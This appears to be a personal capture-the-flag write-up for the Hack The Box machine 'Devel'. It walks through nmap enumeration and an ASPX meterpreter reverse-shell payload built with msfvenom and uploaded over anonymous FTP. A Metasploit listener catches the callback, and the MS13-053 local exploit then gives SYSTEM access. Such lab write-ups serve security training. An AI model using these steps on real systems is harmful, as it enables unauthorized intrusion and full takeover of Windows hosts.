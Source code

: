 ```yaml
---
title: "HTB Devel"
date: 2023-07-18T07:17:05Z
draft: false
---
```


This is my writeup for the HTB Machine [Devel](https://app.hackthebox.com/machines/Devel)

## Info
---
- my os: Kali 2023.2
- my ip: 10.10.14.6
- machine ip: 10.10.10.5

## Enumeration
---
```
$ nmap -sV -sC 10.10.10.5 -p-
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-18 10:45 UTC
Nmap scan report for 10.10.10.5
Host is up (0.048s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.24 seconds

```
key takeaways:
- there is a ftp-server on port 21 and it allows anonymous login
- there is an iis web-server on port 80

It seems like the ftp is pointing to `c://inetpub//wwwroot` where the files for the web-server a stored. 
Let's confirm this by surfing to `http://10.10.10.5/welcome.png`. Bingo!

## Gaining Access
---
Most likely we can upload files via ftp so let's craft a payload for a reverse shell via msfvenom:
``` 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=4444 -f aspx > msfshell.aspx
```
Afterwards we upload the payload via ftp:
```
$ ftp anonymous@10.10.10.5
put msfshell.aspx
```
Before we run the aspx file, we need a listener on the attacker machine:
```
$ msfconsole
msf6 > use multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.6
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```
Now we can execute the aspx by surfing to `http://10.10.10.5/msfshell.aspx`.
We should have a meterpreter session now :)
```
meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (6.1 Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 2
Meterpreter     : x86/windows
```
## Privileg Escalation
---
Because i'm lazy i'll use `local_exploit_suggest` by running
```
meterpreter > run post/multi/recon/local_exploit_suggester 
```

I'll go with `windows/local/ms13_053_schlamperei`
```
msf6 > use windows/local/ms13_053_schlamperei
msf6 exploit(windows/local/ms13_053_schlamperei) > set session 1
msf6 exploit(windows/local/ms13_053_schlamperei) > set lhost 10.10.14.6
msf6 exploit(windows/local/ms13_053_schlamperei) > run
```
and we are root :)
```
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
Now we just have to find the wanted flags:
```
meterpreter > search -f user.txt
Found 1 result...
=================

Path                             Size (bytes)  Modified (UTC)
----                             ------------  --------------
c:\Users\babis\Desktop\user.txt  34            2023-07-18 08:59:08 +0000

meterpreter > search -f root.txt
Found 1 result...
=================

Path                                     Size (bytes)  Modified (UTC)
----                                     ------------  --------------
c:\Users\Administrator\Desktop\root.txt  34            2023-07-18 08:59:08 +0000

```

Happy hacking :)
